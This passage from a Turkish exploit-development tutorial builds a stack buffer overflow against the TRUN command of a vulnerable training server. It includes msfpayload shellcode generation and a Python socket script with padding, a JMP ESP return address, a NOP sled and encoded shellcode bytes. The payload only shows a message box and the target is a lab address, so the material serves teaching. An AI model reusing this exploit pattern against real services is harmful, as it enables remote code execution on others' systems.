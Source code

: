 *DllCharacteristics* kısmının **0000** olması iyiye işaret. İsterseniz görmek amaçlı bir de Windows XP üzeri bir sistemde `ntdll.dll` dosyasının **DllCharacteristics** kısmına bakabilirsiniz.

Evet, ne diyorduk. Gereken adresi not etmiştik, şimdi bu adresi **EIP** yazmacına yazacağız, ESP'ye de shellcodumuzu yazacağız. Öncelikle shellcodu oluşturalım. Ekrana bir pencere açıp yazı gösteren bir shellcode oluşturacağız. Bunun için yine metasploit'in msfpayload aracını kullanacağız.


    bek@blackecho:# msfpayload windows/messagebox TEXT='Gari de gari gari' TITLE='Ne oluyor?' R| msfencode -b 
    '\x00\x0A\x0D' -t python

    [*] x86/shikata_ga_nai succeeded with size 297 (iteration=1)

    buf =  ""
    buf += "\xdd\xc5\xbb\x88\x1a\x26\x5f\xd9\x74\x24\xf4\x58\x2b"
    buf += "\xc9\xb1\x44\x31\x58\x19\x03\x58\x19\x83\xe8\xfc\x6a"
    buf += "\xef\xff\xb4\xf1\xc9\x74\x6f\xf1\xdb\xa6\xdd\x8e\x2a"
    ---snip---

Bu komut işlemimiz için gerekli olan shellcodeu bize verdi. Tabii tümünü yayınlamıyorum. Şimdi exploitin son düzenlemelerinin yapalım.

Öncelikle *EIP* üzerine yazılması gereken adres `625011AF` idi.

    mesaj = "TRUN ."    # Zafitet içeren komut
    mesaj += "A" * 2006 # 2006 tane A harfi
    mesaj += struct.pack('<I', 0x625011AF) # essfunc.dll'deki JMP ESP Adresi

Burada neden `struct.pack()` kullandığımızı merak etmiyorsanız okumasanız da olabilir, hehe şaka şaka. [Şuraya](https://docs.python.org/2/library/struct.html#byte-order-size-and-alignment) bakınız. (< = little-endian, I = unsigned int)

Şimdi shellcodu da ekleyelim, ayrıca shellcode'dan önce biraz NOP(90) ekleyeceğiniz çünkü metasploit ile encode edilmiş shellcodemuz için bu kodun decode edilebilmesi için biraz alan gerekiyor. Çok değil, 20 ekleyelim. Son halini görelim.

    #!python
    import struct #Dikkat
    from socket import *

    # Soket parametreleri
    host = "192.168.177.131"
    port = 9999
    buf  = 1024
    adres = (host,port)

    # Soket oluşturuluyor ve bağlantı kuruluyor
    Baglanti = socket(AF_INET,SOCK_STREAM)
    Baglanti.connect(adres)

    # Gönderilecek Mesaj
    mesaj = "TRUN ."    # Zafitet içeren komut
    mesaj += "A" * 2006 # 2006 tane A harfi
    mesaj += struct.pack('<I', 0x625011AF) # essfunc.dll'deki JMP ESP Adresi  
    mesaj += "\x90" * 20 # 20 Adet NOP -> msfencode için
    # TextBox Shellcode
    mesaj += "\xba\x9a\xe7\x6f\x9a\xdb\xc2\xd9\x74\x24\xf4\x5e\x31"
    mesaj += "\xc9\xb1\x44\x83\xee\xfc\x31\x56\x10\x03\x56\x10\x78"
    mesaj += "\x12\xb6\x71\xe7\x04\x3d\xa2\xe3\x86\x6c\x18\x7c\xd8"
    mesaj += "\x59\x39\x09\x6b\x6a\x49\x7b\x80\x01\x3b\x9f\x13\x53"
    mesaj += "\xcc\x14\x5d\x7c\x47\x1c\x9a\x33\x4f\x15\x29\x92\x6e"
    mesaj += "\x04\x32\xc4\x11\x2d\xa1\x23\xf6\xba\x7f\x10\x7d\xe8"
